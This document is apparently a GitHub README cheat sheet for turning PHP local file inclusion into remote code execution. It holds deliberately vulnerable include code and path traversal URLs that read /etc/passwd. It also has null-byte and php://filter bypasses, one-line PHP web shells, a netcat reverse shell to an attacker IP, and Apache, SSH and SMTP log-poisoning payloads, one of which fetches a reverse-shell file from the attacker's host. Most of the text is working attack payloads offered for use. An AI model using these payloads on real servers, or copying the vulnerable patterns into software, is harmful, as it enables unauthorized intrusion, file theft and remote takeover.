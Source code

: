 # LFI---RCE-Cheat-Sheet

Local File Inclusions occur when an HTTP-GET request has an unsanitized variable input which will allow you to traverse the directory and read files. This attack can often provide key information during a reconnaissance and can sometimes be used to gain remote code execution.


# Vulnerable PHP Code (LFI) 1

Basic unsecure code
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>

Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Vulnerable PHP Code (LFI) 2

Basic unsecure code
```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>


Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Secure PHP Code (LFI) 

Secure code - More secure than above , but still expliotable
```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

# Bypassing PHP via NULL Byte

```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
```

# Bypassing PHP via WRAPPERS

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
```

# PHP RCE

```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>

// Replace IP & Port

Dangerous PHP Functions that can be abused for RCE
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

# LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 



Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR

python -m SimpleHTTPServer 9000 



Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 


file_put_contents('shell.php')                                // What it will be saved locally on the target
file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php

```

# LFI to RCE via SSH Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 



Payload: ssh <?php system($_GET['c']);?>@<target_ip>


Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id

```

# LFI to RCE via SMTP Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 



telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id


```
